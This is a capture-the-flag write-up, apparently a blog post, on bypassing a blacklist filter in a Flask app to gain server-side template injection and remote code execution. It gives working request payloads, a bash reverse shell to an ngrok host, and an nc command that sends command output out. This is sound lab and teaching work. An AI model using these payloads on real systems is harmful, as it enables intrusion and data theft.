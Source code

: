 ```yaml
---
layout: default
title: Blind-SSTI-Filters-Bypass
---
```


In this challenge we need to exploit `SSTI` to achieve `RCE`.

As we can see, this is how the data is getting inserted to the template:
```py
mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'

Best regards,
"""
```

However, there is this `sanitize` function:
```py
def sanitize(value):
    blacklist = ['{{','}}','{%','%}','import','eval','builtins','class','[',']']
    for word in blacklist:
        if word in value:
            value = value.replace(word,'')
    if any([bool(w in value) for w in blacklist]):
        value = sanitize(value)
    return value
```

And also this length limitation:
```py
if len(request.form["name"]) > 20:
    return render_template("index.html", error="Field 'name' is too long.")
if len(request.form["surname"]) >= 50:
    return render_template("index.html", error="Field 'surname' is too long.")
if len(request.form["email"]) >= 50:
    return render_template("index.html", error="Field 'email' is too long.")
if len(request.form["bday"]) > 10:
    return render_template("index.html", error="Field 'bday' is too long.")
```

The main problem here is that we can't send `{{` or `}}`, and same for `{%` and `%}`.
In such case, there is no way to get `SSTI`. 

Is it?
We can see this line in the mail that is being sent:
```py
 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'
```

What will happen if we'll give this for example:
```py
hacker_name = '{'
hacker_surname = '{ 7*7 '
hacker_email = '}'
hacker_bday = '}'
```

When testing locally, we're getting `SSTI`!

Okay, i went to [PayloadAllTheThings SSTI Python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), and got this line:
```py
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

Let's check for `Blind RCE`, like giving `sleep 10`, Notice we must divide it to the `surname` and `email`, because each one can contain up to 50 chars.

This will be our payload:
```py
name={&surname={cycler.__init__.__globals__.os.popen('sleep+10&email=').read()}&bday=}
```

As you can see, it takes 10 seconds until we get response

![sleep PoC](./images/Blind-SSTI-Filters-Bypass_sleep_PoC.png)

Now we just need to get our reverse shell, and find the flag.

However, for somehow i didn't manage to get that, even simple `nc` not working for me, and this is the same for other challenges on this platform, don't know why.

Any way, the payload for the reverse shell will be:
```
sh -i >& /dev/tcp/2.tcp.eu.ngrok.io/17645 0>&1
```

And the final payload (which working fine for me when running the challenge locally...)

```
name={&surname={cycler.__init__.__globals__.os.popen('echo 1337&email=|+nc+5.tcp.eu.ngrok.io+13190').read()}&bday=}
```
so, surname = `{cycler.__init__.__globals__.os.popen('echo 1337`, email = `| nc 5.tcp.eu.ngrok.io 13190').read()}`.

![local RCE](./images/Blind-SSTI-Filters-Bypass_local_RCE.png)

I need to send this to the challenge, and get the data, but it doesn't work :| 

**Flag:** ***`PLACE_HOLDER`***
